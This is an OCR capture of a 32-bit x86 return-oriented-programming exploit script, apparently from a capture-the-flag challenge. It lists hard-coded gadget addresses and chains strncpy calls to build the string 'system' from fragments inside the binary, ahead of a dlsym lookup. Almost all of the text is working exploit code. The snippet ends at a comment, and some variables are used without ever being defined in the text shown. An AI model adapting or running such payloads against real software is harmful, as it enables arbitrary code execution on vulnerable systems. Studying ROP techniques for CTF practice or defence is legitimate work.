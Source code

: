 ```
#pop edx ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
# .text:08059C03                 pop     ebx
# .text:08059C04                 pop     esi
# .text:08059C05                 pop     ebp
# .text:08059C06                 retn
ppp_addr = 0x08059C03
pp_addr = 0x08059C04
pppppr_addr = 0x080540b4
# 0x0805851f : ret 0x1bb
ret_38 = 0x0804ae8c
ret_1bb = 0x0805851f
ret = 0x0804818c
# make system str

payload = ""
payload += p32(ret_1bb)   # for bad string
payload += p32(ret)
payload += "A" * 0x1bb
payload += p32(ret) # ret


payload += p32(strncpy_plt)
payload += p32(pppppr_addr)
payload += p32(system_addr)
payload += p32(0x0805ab58)  # str syscall
payload += p32(3)
payload += "B" * 8 # padding


payload += p32(strncpy_plt)
payload += p32(pppppr_addr)
payload += p32(system_addr + 3)
payload += p32(0x0805b38d)  # str tent
payload += p32(2)
payload += "B" * 8 # padding



payload += p32(strncpy_plt)
payload += p32(pppppr_addr)
payload += p32(system_addr + 5)
payload += p32(0x0805b0ec)  # str mage/jpeg
payload += p32(1)
payload += "B" * 8 # padding


payload += p32(strncpy_plt)
payload += p32(pppppr_addr)
payload += p32(halt_addr)
payload += p32(0x0805670f)  
payload += p32(2)
payload += "B" * 8 # padding


payload += p32(strncpy_plt)
payload += p32(pppppr_addr)
payload += p32(halt_addr + 2)
payload += p32(0x0804bca1)  
payload += p32(2)
payload += "B" * 8 # padding


# call dlsym(0, "system") get system addr
```